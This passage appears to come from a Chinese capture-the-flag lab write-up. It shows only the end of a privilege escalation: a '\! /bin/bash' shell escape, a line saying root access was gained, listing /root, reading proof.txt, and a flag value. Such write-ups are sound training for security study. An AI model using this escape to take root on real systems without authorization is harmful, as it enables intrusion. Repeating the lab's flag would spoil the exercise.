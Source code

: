 ```
\! /bin/bash
```

![image-20211117155507429](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117155507429.png)

成功获取root权限

```
cd /root
```

```
ls
```

```
cat proof.txt
```

![image-20211117155542610](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117155542610.png)

flag2:7efd721c8bfff2937c66235f2d0dbac1


